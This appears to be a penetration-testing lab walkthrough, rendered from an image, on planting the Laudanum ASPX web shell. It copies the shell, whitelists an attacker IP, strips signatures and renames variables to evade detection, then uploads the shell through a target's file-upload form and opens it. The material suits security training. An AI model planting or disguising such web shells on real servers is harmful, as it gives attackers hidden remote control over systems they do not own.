 **Copy Laudanum Shell:**
```bash
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```

**Modify Configuration:**
```csharp
// Line 59 - Add your attacking IP
string[] allowedIps = {"10.10.14.12", "127.0.0.1"};
```

**Recommended Modifications:**
```csharp
// Original (REMOVE)
/*
     Laudanum Project
     Copyright (C) 2006-2016 Kevin Johnson and the Laudanum team
     http://laudanum.inguardians.com/
     
     This program is free software; you can redistribute it and/or
     modify it under the terms of the GNU General Public License
     as published by the Free Software Foundation; either version 2
     of the License, or (at your option) any later version.
*/

// Remove ASCII art and obvious signatures
// Change variable names for obfuscation
// Modify interface styling
```

#### Step 2: File Upload Process

**Locate Upload Functionality:**
- Look for file upload forms on target application
- Identify upload directories and naming conventions
- Test file type restrictions and filtering

**Upload the Shell:**
1. Navigate to upload functionality
2. Select modified web shell file
3. Submit upload request
4. Note success message and file location

**Example Upload Result:**
```
File uploaded successfully to: \\files\demo.aspx
```

#### Step 3: Shell Access

**Navigate to Uploaded Shell:**
```
# Original path from upload response
status.inlanefreight.local\\files\demo.aspx

# Browser automatically converts to
status.inlanefreight.local//files/demo.aspx
```
